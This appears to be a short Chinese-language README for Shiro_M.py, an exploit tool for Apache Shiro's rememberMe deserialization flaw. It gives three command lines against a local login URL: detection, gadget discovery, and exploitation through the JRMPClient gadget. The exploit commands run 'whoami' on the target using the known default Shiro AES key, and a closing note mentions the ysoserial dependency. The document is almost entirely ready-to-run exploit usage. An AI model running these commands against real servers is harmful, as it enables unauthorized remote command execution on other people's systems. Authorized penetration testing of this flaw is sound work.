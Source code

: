 # 1、检测

​    python Shiro_M.py -u http://127.0.0.1:8080/login

# 2、Found gadget

​    python Shiro_M.py -u http://127.0.0.1:8080/login -t 2 -c "whoami" -k "kPH+bIxk5D2deZiIxcaaaA=="

# 3、Exp

​    python Shiro_M.py -u http://127.0.0.1:8080/login -t 3 -g "JRMPClient" -c "whoami" -k "kPH+bIxk5D2deZiIxcaaaA=="

# 注：

ysoserial比较大